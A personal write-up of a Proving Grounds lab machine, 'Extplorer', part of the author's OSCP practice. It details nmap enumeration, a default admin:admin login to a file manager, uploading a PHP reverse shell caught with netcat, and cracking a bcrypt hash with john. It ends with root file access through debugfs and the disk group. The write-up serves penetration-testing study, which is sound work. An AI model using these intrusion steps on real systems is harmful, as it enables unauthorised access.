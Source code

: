 ```yaml
---
date: '2024-10-24'
before : '2024-10-17'
after : '2024-10-24'
title: 'Proving Grounds : Extplorer'
categories: ['C-SEC', 'proving_grounds', 'full-machine', 'ENG']
summary: 'Solving Extplorer machine from Proving Grounds'
thumbnail: '../contentImages/extplorer/5.png'
---
```



Starting with nmap scan
```
┌──(hlee㉿kali)-[~]
└─$ sudo nmap 192.168.155.16 -p- -T4
[sudo] password for hlee: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-24 11:31 EDT
Nmap scan report for 192.168.155.16
Host is up (0.027s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 96.92 seconds
```
As I visited port 80
![image](../contentImages/extplorer/3.png)
This is a wordpress application. Let's continue with enumeration

## 2. Initial Foothold

I initially started with nmap wordpress scan.
```
┌──(hlee㉿kali)-[~]
└─$ sudo nmap 192.168.155.16 -p80 -T4 --script=http-wordpress-*
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-24 11:38 EDT
Nmap scan report for 192.168.155.16
Host is up (0.025s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-wordpress-enum: 
| Search limited to top 100 themes/plugins
|   plugins
|_    akismet 5.1

Nmap done: 1 IP address (1 host up) scanned in 42.86 seconds
                                                                
```
I found akismet 5.1 plugin, but nothing useful I guess.

If I try to set the config like this:
![image](../contentImages/extplorer/4.png)

Error pops up because server doesnt have sql service running. I opened port 8000 and tried it once more with MY_IP:8000
```
┌──(hlee㉿kali)-[~]
└─$ nc -lvnp 8000
listening on [any] 8000 ...
connect to [192.168.45.192] from (UNKNOWN) [192.168.155.16] 41808
```
So it actually tries to connect us. But naturally it isn't a shell. Dead end here.

I found with ffuf an interesting endpoint, /filemanager. As I visited:
![image](../contentImages/extplorer/5.png)
Our machine name was kind of a straight hint I guess. There were several exploits for extplorer. Since we don't have a version name, we need to brute-force for a little bit.

We could log in with default credential admin:admin.
![image](../contentImages/extplorer/6.png)

We can see every files under /wp-admin and also can upload a file. If we can upload a php file and also **access** it, we can simply upload a revshell! I uploaded revshell.php which I created with Reverse shell generator and visited

> 192.168.155.16/wp-admin/revshell.php

Then I got a shell!
```
┌──(hlee㉿kali)-[~]
└─$ nc -lvnp 80  
listening on [any] 80 ...
connect to [192.168.45.192] from (UNKNOWN) [192.168.155.16] 45140
Linux dora 5.4.0-146-generic #163-Ubuntu SMP Fri Mar 17 18:26:02 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 16:40:26 up  1:12,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

But I still can't get local.txt.

## 3. PrivEsc to dora

![image](../contentImages/extplorer/7.png)
We found a hash for dora user at our extplorer application, under /filemanager/xxxx/...(find it yourself!). Let's try to crack it!

```
┌──(.venv)─(hlee㉿kali)-[~/oscp/offsec/extplorer]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 256 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
doraemon         (?)     
1g 0:00:00:02 DONE (2024-10-24 13:01) 0.4975g/s 752.2p/s 752.2c/s 752.2C/s gonzalez..something
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
doaremon is actually my favorite character :)

Then I did su dora.

## 4. PrivEsc to root

I found that dora is:
```
uid=1000(dora) gid=1000(dora) groups=1000(dora),6(disk)
```
disk group is not a normal one. Let's google about it.

> https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe

![image](../contentImages/extplorer/8.png)
It's **almost** root privilege, it says! Let's follow the steps and gain root privilege
```
dora@dora:/$ df -h
df -h
Filesystem                         Size  Used Avail Use% Mounted on
/dev/mapper/ubuntu--vg-ubuntu--lv  9.8G  5.1G  4.2G  55% /
...
```
I assumed that the first Filesystem is our mounted "/".
```
dora@dora:/$ debugfs /dev/mapper/ubuntu--vg-ubuntu--lv
debugfs:  cd /root
debugfs:  ls
ls
 131076  (12) .    2  (12) ..    265478  (12) .ssh    265574  (12) snap   
 131077  (16) .bashrc    131078  (16) .profile    142303  (24) .bash_history   
 265709  (16) .cache    265469  (36) .local    132363  (20) proof.txt   
 132531  (3908) flag4.txt   
debugfs:  cat proof.txt
cat proof.txt
5afd64bd1c723ea7f400751b13d9ad05
```
Done!

Lesson learned: check for group privilege! (bad habit: only checking for sudo -l, pspy and suid permission)

---
## Source

- Proving Grounds
- Me!